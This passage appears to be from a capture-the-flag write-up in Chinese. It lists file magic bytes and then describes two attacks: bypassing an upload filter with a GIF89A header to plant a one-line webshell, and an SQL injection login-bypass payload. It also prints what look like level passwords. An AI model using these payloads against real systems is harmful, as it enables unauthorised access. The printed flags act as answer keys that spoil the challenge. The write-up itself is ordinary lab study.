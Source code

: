     ```PHP
    JPEG (jpg)，                        　　文件头：FFD8FF　　　　　　　　　　　　　　
    PNG (png)，                       　　 文件头：89504E47  文件尾：0000000049454E44AE426082
    GIF (gif)，                           　　文件头：47494638
    ```

* steps

    ```PHP
    抓包加个文件头，JPEG没有成功

    换成GIF89A

    一句话同上关

    Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

    ```

# level 14

>SQL注入,万能密码

* steps

    ```SQL
    admin " or "1"="1" #

    AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

    ```